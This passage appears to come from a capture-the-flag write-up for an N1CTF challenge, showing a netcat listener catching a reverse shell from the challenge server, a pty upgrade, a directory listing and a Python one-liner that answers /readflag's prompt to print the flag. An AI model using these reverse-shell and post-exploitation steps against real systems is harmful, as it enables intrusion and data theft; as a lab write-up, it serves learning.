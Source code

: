 With this, you can easily get the system shell in the remote server.

However, the challenge author has set `alarm()` on `/readflag` to prevent any unexpected solutions, so I had to write some custom python code to automate the `/readflag` stdin to retrieve the flag.

```shell
root@stypr-jpn:/tmp# nc -vlp 12345
Listening on [0.0.0.0] (family 0, port 12345)
Connection from 8.218.140.54 43570 received!
bash: cannot set terminal process group (165270): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
ctf@cb449efe1f34:/$  python -c "import pty; pty.spawn('/bin/bash')"
 python -c "import pty; pty.spawn('/bin/bash')"
bash: /root/.bashrc: Permission denied
ctf@cb449efe1f34:/$ cd /
cd /
ctf@cb449efe1f34:/$ ls -la
ls -la
total 456
drwxr-xr-x   1 root root   4096 Nov 19 15:13 .
drwxr-xr-x   1 root root   4096 Nov 19 15:13 ..
-rwxr-xr-x   1 root root      0 Nov  7 21:45 .dockerenv
drwxr-xr-x   1 root root   4096 Nov 19 15:15 bin
drwxr-xr-x   2 root root   4096 Apr 24  2018 boot
drwxr-xr-x   5 root root    340 Nov 20 22:10 dev
drwxr-xr-x   1 root root   4096 Nov  7 21:45 etc
-r-x------   1 root root     71 Nov  7 21:03 flag
drwxr-xr-x   1 root root   4096 Nov  7 21:42 home
drwxr-xr-x   1 root root   4096 Nov  7 21:40 lib
drwxr-xr-x   2 root root   4096 Nov  7 21:40 lib32
drwxr-xr-x   2 root root   4096 Sep 30 20:33 lib64
drwxr-xr-x   2 root root   4096 Sep 30 20:32 media
drwxr-xr-x   2 root root   4096 Sep 30 20:32 mnt
drwxr-xr-x   1 root root   4096 Nov  7 21:40 opt
dr-xr-xr-x 195 root root      0 Nov 20 22:10 proc
-r-sr-xr-x   1 root root  13144 Nov  7 18:23 readflag
drwx------   1 root root   4096 Nov 21 01:02 root
drwxr-xr-x   1 root root   4096 Nov 20 22:10 run
drwxr-xr-x   1 root root   4096 Nov  8 14:24 sbin
dr-xr-xr-x   1 root root   4096 Nov  7 21:42 src
drwxr-xr-x   2 root root   4096 Sep 30 20:32 srv
dr-xr-xr-x  13 root root      0 Nov 20 23:16 sys
drwxrwxrwt   1 root root 348160 Nov 21 01:29 tmp
drwxr-xr-x   1 root root   4096 Nov  7 21:40 usr
drwxr-xr-x   1 root root   4096 Nov  7 21:41 var
ctf@cb449efe1f34:/$ python -c 'from subprocess import Popen, PIPE, STDOUT;p=Popen(["/readflag"], stdout=PIPE, stdin=PIPE, stderr=STDOUT);print(p.stdout.readline());ans=str(eval(p.stdout.readline().strip()));print(ans);p.stdin.write(ans+"\n");print(p.stdout.readline());print(p.stdout.readline());print(p.stdout.readline());'
<t(p.stdout.readline());print(p.stdout.readline());'
Solve the easy challenge first

-2542215
input your answer: ok! here is your flag!!

n1ctf{3894619c1b94abe1df7fa7948fa5028a5eba3b98408624ebc02163ad72382c39}

ctf@cb449efe1f34:/$ 
```
